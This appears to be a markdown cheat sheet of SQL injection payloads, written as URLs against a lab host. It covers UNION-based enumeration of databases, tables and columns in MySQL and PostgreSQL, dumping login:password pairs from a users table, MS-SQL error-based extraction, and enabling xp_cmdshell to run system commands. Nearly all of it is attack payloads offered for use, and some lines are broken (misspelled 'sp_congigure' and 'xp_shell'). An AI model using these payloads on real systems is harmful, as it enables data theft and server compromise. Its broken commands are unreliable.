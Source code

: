# SQLI tricks

## GET

### Error-Based

### Simple test

`Adding a simpe quote '`

Example: `http://192.168.1.104/Less-1/?id=5'`

### Fuzzing

Sorting columns to find maximum column

`http://192.168.1.104/Less-1/?id=-1 order by 1`

`http://192.168.1.104/Less-1/?id=-1 order by 2`

`http://192.168.1.104/Less-1/?id=-1 order by 3`

(until it stop returning errors)

---


### Finding what column is injectable

**mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, 3` (using the same amount of columns you got on the previous step)

**postgresql**
`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, NULL` (using the same amount of columns you got on the previous step)

 one of the columns will be printed with the respective number

---


#### Finding version

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, version()` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, version()` **postgres**s


#### Finding database name

`http://192.168.1.104/Less-1/?id=-1 union select 1,2, database()` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL,NULL, database()` **postgres**


#### Finding usernames logged in

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, current_user()` **mysql**


#### Finding databases

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, datname from pg_database` **postgres**


#### Finding table names from a database

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"` **postgres**


#### Finding column names from a table

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"` **postgres**

#### Concatenate

Example:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login from users;`
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**


### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`


#### DBMS version

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`


#### Database name

`http://192.168.1.104/Less-1/?id=-1 or db_name(0)=0 --`


#### Tables from a database

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`


#### Columns within a table


`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation
> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`


#### Actual data


`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`


#### Shell commands

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`

